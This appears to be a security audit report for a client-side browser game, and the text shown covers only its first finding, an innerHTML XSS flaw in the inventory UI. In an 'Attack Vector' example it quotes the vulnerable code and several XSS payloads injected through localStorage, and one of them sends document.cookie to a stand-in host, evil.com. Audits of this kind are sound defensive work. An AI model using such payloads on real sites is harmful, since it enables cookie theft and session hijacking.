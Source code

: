 # Security Audit Report - Runes of Tir na nÓg
**Date**: October 19, 2025  
**Severity Scale**: 🔴 Critical | 🟠 High | 🟡 Medium | 🟢 Low  
**Status**: Initial Audit - Fixes Pending Implementation

---

## Executive Summary

This security audit identifies **12 critical vulnerabilities** in the current codebase that could lead to:
- Cross-Site Scripting (XSS) attacks
- Local storage poisoning and corruption
- Denial of Service (DoS)
- User data manipulation
- Arbitrary code execution in client context

**All vulnerabilities are client-side** (no backend exists), but still pose risks to user experience, data integrity, and potential attack vectors if deployed publicly.

---

## 🔴 CRITICAL VULNERABILITIES

### VULN-001: innerHTML XSS in Inventory System
**File**: `game/ui/Inventory.js`  
**Lines**: 45-156, 228, 232-234  
**Severity**: 🔴 Critical  
**CVSS Score**: 7.2 (High)

#### Description
Multiple instances of unsanitized user data being injected directly into innerHTML:

```javascript
// Line 228 - User-controlled item data
slot.innerHTML = `
    <div class="slot-number">${index + 1}</div>
    <div class="item-icon">${item.icon}</div>  // ⚠️ UNSANITIZED
    ${item.quantity ? `<div class="item-quantity">${item.quantity}</div>` : ''}
`;

// Lines 232-234 - Tooltip XSS vector
slot.dataset.itemName = item.name;      // ⚠️ UNSANITIZED
slot.dataset.itemType = item.type;      // ⚠️ UNSANITIZED
slot.dataset.itemDesc = item.description; // ⚠️ UNSANITIZED
```

#### Attack Vector
```javascript
// Attacker manipulates localStorage
localStorage.setItem('inventory', JSON.stringify({
    items: [{
        name: '<img src=x onerror=alert("XSS")>',
        icon: '<script>steal_data()</script>',
        description: '<img src=x onerror=fetch("evil.com?cookie="+document.cookie)>'
    }]
}));
```
